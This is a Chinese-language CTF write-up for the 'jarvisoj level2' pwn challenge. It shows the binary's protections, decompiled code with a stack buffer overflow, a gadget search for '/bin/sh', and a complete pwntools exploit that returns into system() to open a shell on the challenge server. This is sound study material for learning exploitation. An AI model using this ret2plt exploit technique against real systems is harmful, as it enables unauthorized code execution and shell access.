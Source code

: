 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level2
date: 2022-3-21 10:20:02
permalink: /pages/2e1547494524d182
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level2/level2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
```

漏洞函数vulnerable_function如下

```c
ssize_t vulnerable_function()
{
  char buf; // [esp+0h] [ebp-88h]

  system("echo Input:");
  return read(0, &buf, 0x100u);
}
```

函数表如下

![jarvisoj_level2_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level2_1.png)

Gadget

```shell
ROPgadget --binary level2 --string "/bin/sh\x00"              
Strings information
============================================================
0x0804a024 : /bin/sh
```

## 思路分析

1. 目前信息:
   - vulnerable_function函数可溢出
   - plt表内有system
   - 程序内有/bin/sh字符串
   - No PIE
2. 思路

- 直接溢出到plt表内的system处，传入/bin/sh地址即可

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level2/level2'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29484)
elf = ELF(pwnfile)
padding = 0x88+4
bin_sh = 0x0804A024
payload = flat(['a'*padding, elf.plt['system'], 0xdeadbeef, bin_sh])
io.recv()
io.sendline(payload)
io.interactive()
```